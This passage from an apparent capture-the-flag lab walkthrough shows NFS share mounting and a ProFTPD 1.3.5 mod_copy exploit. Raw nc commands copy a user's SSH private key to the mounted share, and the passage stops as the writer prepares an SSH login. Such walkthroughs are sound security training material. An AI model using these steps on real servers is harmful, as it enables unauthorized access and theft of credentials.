 We found a mount called **/var**. We can use the `mount` command to connect to the NFS share to a mount point on our machine: `sudo mount -t nfs {target_IP}:/var /tmp/kenobi -nolock`.

```terminal
┌──(sirius㉿kali)-[~]
└─$ cd /tmp/kenobi                                    

┌──(sirius㉿kali)-[/tmp/kenobi]
└─$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

Just like that, we got a copy of everything on the **/var** mount on our machine.

## FTP

When we search for **proftpd 1.3.5** using `searchsploit`, the output shows an exploit from ProFtpd's mod_copy module. The mod_copy module actualizes SITE CPFR and SITE CPTO commands, which can be utilized to copy files/directories from one place to another on the server. Let's use that to copy the private key we saw earlier in **log.txt** to the **/var** directory that we know it's the mount we have connected to earlier. The commands we will be using are:

 - `nc {target_IP} 21` : to connect to the FTP server.
 - `SITE CPFR {source-path}` : i think it means 'copy from'
 - `SITE CPTO {destination-path}` : i think it means and 'copy to'

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc 10.10.208.106 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.208.106]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
^C

┌──(sirius㉿kali)-[~]
└─$ ls /tmp/kenobi/tmp                                                                                                                                   1 ⨯
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-de6ab464c3a449188c59cc9ac254b25b-systemd-timesyncd.service-E5AyCZ
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn

```

Great, we have successfully copied the private key to the NFS mount.

# **Foothold**

We will be using the private key (id_rsa) to login to Kenobi's account using ssh. But first, we need to copy it to our machine and give it the right permissions in order for it to work.
